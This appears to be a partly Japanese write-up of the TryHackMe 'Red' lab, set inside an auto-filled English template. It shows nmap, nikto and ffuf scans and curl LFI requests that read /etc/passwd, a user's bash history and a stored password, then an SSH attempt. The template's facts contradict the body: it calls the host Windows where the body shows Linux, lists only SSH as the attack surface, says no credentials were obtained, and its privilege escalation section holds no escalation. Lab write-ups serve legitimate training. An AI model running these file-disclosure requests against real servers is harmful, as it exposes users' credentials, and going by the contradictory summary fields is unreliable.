

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Windows |
| Difficulty                | Not specified |
| Attack Surface            | 22/tcp open  ssh |
| Primary Entry Vector      | lfi |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---

Initial reconnaissance narrows the attack surface by establishing public services and versions. Under the OSCP assumption, it is important to identify "intrusion entry candidates" and "lateral expansion candidates" at the same time during the first scan.

## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (or log not saved)


## Nmap
```bash
nmap -sV -sT -sC $ip
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ nmap -sV -sT -sC $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 23:30 JST
Nmap scan report for 10.10.103.189
Host is up (0.25s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e2:74:1c:e0:f7:86:4d:69:46:f6:5b:4d:be:c3:9f:76 (RSA)
|   256 fb:84:73:da:6c:fe:b9:19:5a:6c:65:4d:d1:72:3b:b0 (ECDSA)
|_  256 5e:37:75:fc:b3:64:e2:d8:d6:bc:9a:e6:7e:60:4d:3c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.62 seconds
```

### 2. Local Shell

---

ここでは初期侵入からユーザーシェル獲得までの手順を記録します。コマンド実行の意図と、次に見るべき出力（資格情報、設定不備、実行権限）を意識して追跡します。

### 実施ログ（統合）

### # What is the first flag?

まずはnmap

```bash
┌──(n0z0㉿LAPTOP-P490FVC2)-[~]
└─$ nmap -sV -sT -sC $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-25 23:30 JST
Nmap scan report for 10.10.103.189
Host is up (0.25s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e2:74:1c:e0:f7:86:4d:69:46:f6:5b:4d:be:c3:9f:76 (RSA)
|   256 fb:84:73:da:6c:fe:b9:19:5a:6c:65:4d:d1:72:3b:b0 (ECDSA)
|_  256 5e:37:75:fc:b3:64:e2:d8:d6:bc:9a:e6:7e:60:4d:3c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.62 seconds
```

思ったより空いてるポートが少ないから全量スキャンをしてみる

webページにアクセスしてみたらプレーンなサイトに飛ばされた

CMSとかアップロードできるところないか見てみたけど特に何もなさそうだった


*Caption: Screenshot captured during red attack workflow (step 1).*

niktoで脆弱性スキャンしてみた

```
┌──(n0z0㉿Smile)-[~]
└─$ nikto -h $ip
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.103.189
+ Target Hostname:    10.10.103.189
+ Target Port:        80
+ Start Time:         2024-08-25 23:58:23 (GMT9)
---------------------------------------------------------------------------
+ Server: Apache/2.4.41 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Root page / redirects to: /index.php?page=home.html
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.41 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /readme.txt: This might be interesting.
+ ERROR: Error limit (20) reached for host, giving up. Last error:
+ Scan terminated: 4 error(s) and 4 item(s) reported on remote host
+ End Time:           2024-08-26 00:35:28 (GMT9) (2225 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

この結果を見るとLFI脆弱性が使えそうなことがniktoからわかる

```
+ Root page / redirects to: /index.php?page=home.html
```

FFuFでディレクトリの列挙してみたけど
アップロードするところはありそうだった

```
┌──(n0z0㉿Smile)-[~]
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt -u http://$ip/FUZZ -recursion -recursion-depth 1 -ic -c

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.103.189/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-1.0.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

                        [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 254ms]
assets                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 249ms]
[INFO] Adding a new job to the queue: http://10.10.103.189/assets/FUZZ

[INFO] Starting queued job on target: http://10.10.103.189/assets/FUZZ

                        [Status: 200, Size: 1502, Words: 100, Lines: 20, Duration: 250ms]
images                  [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 253ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.103.189/assets/images/
css                     [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 246ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.103.189/assets/css/
js                      [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 250ms]
[WARN] Directory found, but recursion depth exceeded. Ignoring: http://10.10.103.189/assets/js/
:: Progress: [141695/141695] :: Job [2/2] :: 158 req/sec :: Duration: [0:15:17] :: Errors: 0 ::
```


*Caption: Screenshot captured during red attack workflow (step 2).*

PHPのLFI使えるか確認

```bash
┌──(n0z0㉿Smile)-[~]
└─$ curl http://$ip/index.php?page=index.php
<?php

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>
```

home.htmlを指定しているから、URLいじればサーバにアクセスできそう

解説ありけり

- 関数「sanitize_input」を読むと、「../」を削除し、その後「./」を削除していることがわかります。
- 「sanitize_input」が使用されているのは、「preg_match」というPHPの組み込み関数の後で、この関数は文字列内で特定の表現を検索するために使われます。
- したがって、記号、数字、そして「/var/www/html/index.php」のようなパスを入力することは許可されません。

どちらかのコマンドでpasswdファイルがとれた。

```
┌──(n0z0㉿Smile)-[~]
└─$ curl http://$ip/index.php?page=php://filter/resource=/etc/passwd
┌──(n0z0㉿Smile)-[~]
└─$ curl http://$ip/index.php?page=file:///etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
blue:x:1000:1000:blue:/home/blue:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
red:x:1001:1001::/home/red:/bin/bash
```

redとかblueが有効なユーザ名に見受けられる

URLいじって色々見てみると面白そうなものが発見できた

```bash
┌──(n0z0㉿Smile)-[~]
└─$ curl http://$ip/index.php?page=file:///home/blue/.bash_history
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

.reminder見てみるとパスワードがあったからSSHしてみる

```
┌──(n0z0㉿Smile)-[~]
└─$ curl http://$ip/index.php?page=file:///home/blue/.reminder
sup3r_p@s$w0rd!
```

パスワードが環境変数と認識されてるのかうまく打ち込めなくなった

```
┌──(root㉿Smile)-[~]
└─# sshpass -p 'sup3r_p@s$w0rd!9' ssh blue@$ip

┌──(root㉿Smile)-[~]
└─#
```

この後はpspy送り込んでリバースシェルしてflag2取得

policykitっていうのを使ってflag3を獲得してるっぽい

[https://readysetexploit.gitlab.io/home/thm/red/](https://readysetexploit.gitlab.io/home/thm/red/)

[https://systemweakness.com/red-vs-blue-tryhackme-red-writeup-c15bd7853b3c](https://systemweakness.com/red-vs-blue-tryhackme-red-writeup-c15bd7853b3c)

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

```bash
┌──(n0z0㉿Smile)-[~]
└─$ curl http://$ip/index.php?page=file:///home/blue/.bash_history
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
No credentials obtained.
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- ffuf
- nikto
- sudo
- ssh
- curl
- cat
- php
- GTFOBins
